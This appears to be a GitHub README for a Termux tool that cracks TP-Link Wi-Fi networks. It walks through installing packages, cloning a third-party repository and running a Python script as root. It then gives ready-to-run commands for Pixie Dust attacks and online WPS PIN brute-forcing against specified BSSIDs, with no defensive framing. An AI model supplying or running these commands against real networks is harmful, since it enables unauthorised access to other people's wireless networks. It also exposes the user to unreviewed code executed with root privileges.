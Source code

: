 ## Rin_crack_wifi
### Hack TP Link Wifi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/mrrininfo/Wifi.git
$ chmod +x Wifi/Rin_crack_wifi.py
To Run: 
$ sudo python Wifi/Rin_crack_wifi.py -i wlan0 -K
```

#### Example : `sudo python Rin_crack_wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Rin_crack_wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Rin_crack_wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Rin_crack_wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
